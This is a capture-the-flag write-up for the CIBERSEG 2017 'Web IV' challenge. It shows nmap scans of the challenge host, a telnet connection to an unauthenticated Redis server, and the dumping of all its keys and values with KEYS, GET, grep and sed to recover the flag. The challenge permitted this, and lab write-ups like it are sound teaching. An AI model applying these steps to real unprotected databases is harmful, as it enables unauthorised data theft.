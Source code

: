 ### ==================================================
### Web IV (200pts) write-up
### CTF: CIBERSEG 2017
### URL: https://ciberseg.uah.es/ctf.html
### CAT: web
### ==================================================

Visita el retos.ciberseg.uah.es:6379 y consigue la clave.

O en:

yuki.ddom.me:6379

Pista :) Esta permitido hacer Nmap contra el puerto 6379.

***
Visit retos.ciberseg.uah.es:6379 and get the key.

Or here:

yuki.ddom.me:6379

Hint :) It is allowed to use nmap to port 6379.


***

## (1) FOOTPRINTING AND RECONNAISSANCE

In this challenge it is allowed to use nmap against the target (just port 6379):

    $ nmap -p 6379 retos.ciberseg.uah.es
    
    Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-01-22 02:28 CET
    Nmap scan report for retos.ciberseg.uah.es (192.81.220.40)
    Host is up (0.045s latency).
    PORT     STATE SERVICE
    6379/tcp open  unknown
    
    Nmap done: 1 IP address (1 host up) scanned in 0.28 seconds

We use the '-sV' option to identify the service running on port 6379 and '-O' to identify the OS:

    # nmap -p 6379 -sV -O retos.ciberseg.uah.es
    
    Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-01-22 02:29 CET
    Nmap scan report for retos.ciberseg.uah.es (192.81.220.40)
    Host is up (0.026s latency).
    PORT     STATE SERVICE VERSION
    6379/tcp open  redis   Redis key-value store
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: WAP|general purpose
    Running: Actiontec embedded, Linux 2.4.X|3.X
    OS CPE: cpe:/h:actiontec:mi424wr-gen3i cpe:/o:linux:linux_kernel cpe:/o:linux:linux_kernel:2.4.37 cpe:/o:linux:linux_kernel:3.2
    OS details: Actiontec MI424WR-GEN3I WAP, DD-WRT v24-sp2 (Linux 2.4.37), Linux 3.2

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 18.61 seconds

The service running on port 6379 is a database 'Redis key-value store':

https://redis.io/commands

Now we check whether we are able to connect to the CLI of the database and send commands (i.e. 'DBSIZE'):

    # telnet retos.ciberseg.uah.es 6379
    Trying 192.81.220.40...
    Connected to retos.ciberseg.uah.es.
    Escape character is '^]'.
    DBSIZE
    :1104



## (2) DUMPING THE KEYS

The database stores pairs of keys/values. Using the following command we can dump all the keys and store them in a plaintext file 'keys.txt' (there are 1104 keys):

    KEYS *

In order to get the values of the keys, we must use the following command:

    GET <key>

We can take advantage of our file 'keys.txt' in order to build a list of 'GET' commands for all the keys. First, we delete the strings starting by '$':

    # cat keys.txt | grep -v '\$' > keys2.txt

Then, we append a 'GET' at the beginning of each line:

    # sed 's/^/GET /' keys2.txt > comandos.txt

We connect to the server again using 'telnet' and dump the contents of 'comandos.txt' to the CLI. We get the values of the keys and store them in the 'values.txt' file.

Now we look for the flag:

    # cat values.txt | grep flag
    flag{noauth:(}
    12flagflag

The flag is:

    flag{noauth:(}


